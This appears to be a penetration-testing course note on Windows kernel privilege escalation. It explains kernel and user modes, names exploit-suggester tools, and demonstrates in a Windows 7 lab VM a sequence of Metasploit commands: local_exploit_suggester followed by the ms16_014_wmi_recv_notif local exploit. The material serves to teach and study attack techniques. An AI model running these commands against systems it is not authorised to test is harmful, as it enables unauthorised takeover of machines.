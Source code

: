 #### The kernel

* A kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
* Windows NT is the kernel that comes pre-packaged with all version of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consts of two main modes of operation that determine access to system resources and hardware :
  * User mode : programs and services running in user mode have limited access to system resources and functionality.
  * Kernel mode : kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

#### Exploitation

* Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the version of Windows being targeted and the kernel exploit being used.
* Privilege escalation on Windows systems will typically follow the following methodology :
  * Identifying kernel vulnerabilities
  * Downloading, compiling and transferring kernel exploits onto the target system.

#### Tools & environment

* **Windows-Exploit-Suggester** : this tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It alse notifies the user if there are public exploit and Metasploit modules available for the missing bulletings
* **Windows-Kernel-Exploits** : collection of Windows Kernel exploit sorted by CVE.

_Note : the techniques demonstrated in this video are performed on a Windows 7 SP1 VM._

#### Demonstration

```
msf6> sessions
```

<figure><img src="../../.gitbook/assets/48.png" alt=""><figcaption></figcaption></figure>

```
msf6> getuid
msf6> getprivs
msf6> getsystem

msf6> search suggester
msf6> use post/multi/recon/local_exploit_suggester
msf6> set session 3
msf6> run
```

<figure><img src="../../.gitbook/assets/49.png" alt=""><figcaption></figcaption></figure>

```
msf6> use exploit/windows/local/ms16_014_wmi_recv_notif
msf6> set session 3
msf6> set lport 4422
msf6> exploit
```
